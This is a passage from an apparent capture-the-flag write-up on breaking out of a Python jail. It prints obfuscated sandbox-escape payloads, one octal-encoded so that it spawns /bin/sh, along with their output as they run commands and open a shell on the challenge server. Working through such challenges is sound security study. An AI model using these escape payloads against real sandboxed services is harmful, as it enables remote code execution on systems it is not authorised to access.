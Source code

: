 Enumerating with other commands,

```c
...

RUN
>>> print(getattr(getattr(globals()['__builtins__'],'__im'+'port__')('o'+'s'),'sys'+'tem')('id'))
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
0

...

RUN
>>> print(getattr(getattr(globals()['__builtins__'],'__im'+'port__')('o'+'s'),'sys'+'tem')('uname -a'))
Linux inctf-python-jail-56b4f88577-xhc7w 5.4.144+ #1 SMP Tue Sep 28 10:08:22 PDT 2021 x86_64 x86_64 x86_64 GNU/Linux
0

```

So we are able to perform RCE on the server. Its time to gain foothold by spawning shell on the server,

Payload to spawn shell (Thanks to ```h4x5p4c3```)

```c
getattr(getattr(getattr(main, '__globals__')['__builtins__'], '\x65\x78\x65\x63')('\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\57\142\151\156\57\163\150\47\51'))
```

Passing this payload to the server,

```c
...

RUN
>>> getattr(getattr(getattr(main, '__globals__')['__builtins__'], '\x65\x78\x65\x63')('\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\57\142\151\156\57\163\150\47\51'))
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
whoami
nobody
```

Converting it into Pseudo Shell,

```c
python3 -c "import pty;pty.spawn('/bin/bash')"
bash: /root/.bashrc: Permission denied
nobody@inctf-python-jail-56b4f88577-hrgt6:/$ id
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```
